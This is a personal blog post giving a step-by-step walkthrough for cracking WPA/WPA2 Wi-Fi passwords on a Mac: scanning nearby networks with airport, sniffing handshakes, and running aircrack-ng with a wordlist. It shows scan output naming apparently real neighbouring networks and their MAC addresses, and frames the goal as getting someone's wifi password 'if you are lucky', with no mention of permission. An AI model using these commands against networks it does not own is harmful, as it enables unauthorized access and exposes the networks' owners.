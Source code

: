```yaml
---
layout: article
blogName: SunJK' Blog 
category: wifi
category_en: wifi
title: aircrack on mac
tags: icmp 
---
```

###  aircrack on mac with WPA/WPA2
* `airmon-ng` `airodump-ng` `aireplay-ng` doesn't work for mac<br>
* use `airport` on mac to sniff authentication handshake<br>
* type `airport -s` on terminal, find channel of wifi which you wana crack
<pre>
                            SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                 TP-LINK_HyFi_16 08:57:00:b8:42:16 -83  11,-1   Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                   ChinaNet-PjnC b4:41:7a:b8:0c:e9 -58  11      Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 
                       Cici_chen d0:c7:c0:1c:ac:60 -51  11,-1   Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                          zdcnet 6c:e8:73:3a:2f:cc -88  6,+1    Y  US WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                   TP-LINK_99999 20:dc:e6:3c:ff:6c -81  6       N  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                       littlepig 00:23:cd:15:fd:2c -89  2,+1    Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                        Tenda_XY c8:3a:35:4e:16:01 -64  1       Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 
                   ChinaNet-6ecG b4:41:7a:b6:c1:5c -68  1       Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 

</pre>

* type `sudo airport en0 sniff 1` to sniff authentication handshake.<br>
* download wifi crack dictionary , type `aircrack-ng -w wifi.txt authen.cap | grep 'handshake'`, find line which handshake count more than 0
<pre>
sunjk:wifi SunJK$ aircrack-ng -w wifi.txt a2.cap | grep 'handshake'
   1  80:71:7A:5A:C5:4C  HG532e-101                WPA (0 handshake)
   2  08:57:00:B8:73:92  TP-LINK_HyFi_16           WPA (1 handshake)
   5  D0:C7:C0:1C:AC:60  Cici_chen                 WPA (0 handshake)
   8  64:09:80:19:44:7F  DDD                       WPA (0 handshake)
</pre>
* type `aircrack-ng -w dic.txt authen.cap` , choose `Index number of target network ` that you found. 
* waiting for result.if you are lucky , you will get wifi password soon.

### External links:
_<http://www.aircrack-ng.org/doku.php?id=wpa_capture>_<br>
_<http://www.aircrack-ng.org/doku.php?id=cracking_wpa>_<br>
_<http://www.hsc.fr/ressources/articles/hakin9_wifi/hakin9_wifi_EN.pdf>_<br>

